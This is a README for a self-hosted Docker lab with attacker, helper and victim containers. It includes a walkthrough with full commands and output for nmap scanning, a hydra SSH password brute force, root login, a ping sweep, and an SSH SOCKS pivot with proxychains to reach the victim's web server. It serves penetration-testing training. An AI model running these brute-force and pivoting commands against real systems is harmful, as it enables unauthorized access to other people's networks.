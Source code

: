 # Attack Container Simple Lab

## Architecture


## Setup
### Create secret-public ssh key pair
```bash
mkdir -p ./ssh-key ./authorized_keys
ssh-keygen -t rsa -N "" -f ./ssh-key/id_rsa
cp ./ssh-key/id_rsa.pub ./authorized_keys/authorized_keys
chmod 644 ./authorized_keys/authorized_keys
chmod -R 777 ./ssh-key
chown nobody:nogroup ./ssh-key/id_rsa
```

### Run the lab
```bash
docker-compose up -d
```

#### Access to attacker
```bash
docker exec -it attacker /bin/bash
```

## Testing
1. From container `attacker` ping `helper`:
```bash
docker exec -it attacker ping 172.16.100.11
```

2. From `attacker` ping `victim` fail:
```bash
docker exec -it attacker ping 172.16.101.11
```

## Walkthrough
First, access the container `attacker`:
```bash
docker exec -it attacker /bin/bash
```

Next, we try to ping to `helper` to check the connection
```bash
root@attacker:/# ping helper
PING helper (172.16.100.11) 56(84) bytes of data.
64 bytes from helper.acsl_attacker_net (172.16.100.11): icmp_seq=1 ttl=64 time=0.391 ms
64 bytes from helper.acsl_attacker_net (172.16.100.11): icmp_seq=2 ttl=64 time=0.042 ms
64 bytes from helper.acsl_attacker_net (172.16.100.11): icmp_seq=3 ttl=64 time=0.041 ms
64 bytes from helper.acsl_attacker_net (172.16.100.11): icmp_seq=4 ttl=64 time=0.055 ms
^C
--- helper ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3083ms
rtt min/avg/max/mdev = 0.041/0.132/0.391/0.149 ms
root@attacker:/#
```

Recon the `helper`:
```bash
root@attacker:/# nmap -sC -sV -A -oA nmap/details -p `for i in $(nmap --min-rate 10000 -p- -oA nmap/allports helper | grep -E "^[0-9]" | awk -F/ '{print $1}'); do echo -n $i,; done` helper
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-12 21:27 +03
Nmap scan report for helper (172.16.100.11)
Host is up (0.00012s latency).
rDNS record for 172.16.100.11: helper.acsl_attacker_net

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 31:9d:b0:00:0c:d9:4d:22:fe:52:a2:8c:13:44:7d:f2 (ECDSA)
|_  256 0f:75:49:55:3d:14:62:00:d7:e1:89:75:1b:22:b4:a6 (ED25519)
MAC Address: BA:3A:8C:F4:DD:3E (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 4.15 - 5.8 (96%), Linux 2.6.32 - 3.10 (96%), Linux 5.0 - 5.5 (96%), Linux 3.4 - 3.10 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.3 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.12 ms helper.acsl_attacker_net (172.16.100.11)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.88 seconds
```

Try to brute force service `ssh` of `helper`:
```bash
root@attacker:/# hydra -l root -P /home/rock.txt ssh://172.16.100.11
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-12 21:30:49
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 14 tasks per 1 server, overall 14 tasks, 14 login tries (l:1/p:14), ~1 try per task
[DATA] attacking ssh://172.16.100.11:22/
[22][ssh] host: 172.16.100.11   login: root   password: iloveyou
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-12 21:30:51
```

Initial access to `helper`:
```bash
root@attacker:/# ssh root@helper
root@helper's password:
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon May 12 18:20:17 2025 from 172.16.100.10
root@helper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@helper:~#
```

`ifconfig` shows that the helper machine is part of two network families
```bash
root@helper:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.100.11  netmask 255.255.255.0  broadcast 172.16.100.255
        ether ba:3a:8c:f4:dd:3e  txqueuelen 0  (Ethernet)
        RX packets 134263  bytes 7912749 (7.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 134222  bytes 7416679 (7.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.101.10  netmask 255.255.255.0  broadcast 172.16.101.255
        ether ce:23:2b:c2:e3:39  txqueuelen 0  (Ethernet)
        RX packets 22  bytes 1688 (1.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8  bytes 504 (504.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Using ping sweep to scan for alive hosts
```bash
root@helper:~# for i in $(seq 1 254); do (ping -c 1 172.16.101.${i} | grep "64 bytes from" | grep -oE "([0-9]{1,3}[\.]){3}[0-9]{1,3}" &); done;
172.16.101.1
172.16.101.10
172.16.101.11
root@helper:~#
```
We can determine that the IP 172.16.101.1 is the gateway's IP, 172.16.101.10 is `helper`'s IP, therefore the 172.16.101.11 is the victim's IP.


Back to our `attacker` machine. We are creating **dynamic port forwarding leverages the SOCKS proxy**. This will deliver all the traffic through an ssh connection, via, given port to the destination server. Here we are forwarding all the traffics to the attacker machine
```bash
root@attacker:/etc# ssh -D 9050 root@172.16.100.11 -f -N
root@172.16.100.11's password:
root@attacker:/etc#
```

We are going to use the `proxychains`. Check if the port specified in “/etc/proxychains.conf” should be the same as dynamic port. 

Then we will scan the victim's IP, which is 172.16.101.11
```bash
root@attacker:/# proxychains nmap -sT -Pn 172.16.101.11
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-12 21:56 +03
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.101.11:3389 <--socket error or timeout!
....
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.101.11:5566 <--socket error or timeout!
Nmap scan report for 172.16.101.11 (172.16.101.11)
Host is up (0.00057s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.66 seconds
```
We used the `-Pn` flag to skip host discovery. The reason why we cannot ping is that proxies do not support ICMP protocols. Their working OSI layers are different while proxychains can only proxy TCP connections.

Now we try to access the web service of `victim`
```bash
root@attacker:/# proxychains -q curl http://172.16.101.11 -I
HTTP/1.1 200 OK
Server: nginx/1.27.5
Date: Mon, 12 May 2025 19:01:12 GMT
Content-Type: text/html
Content-Length: 18
Last-Modified: Mon, 12 May 2025 17:53:46 GMT
Connection: keep-alive
ETag: "682235aa-12"
Accept-Ranges: bytes

```




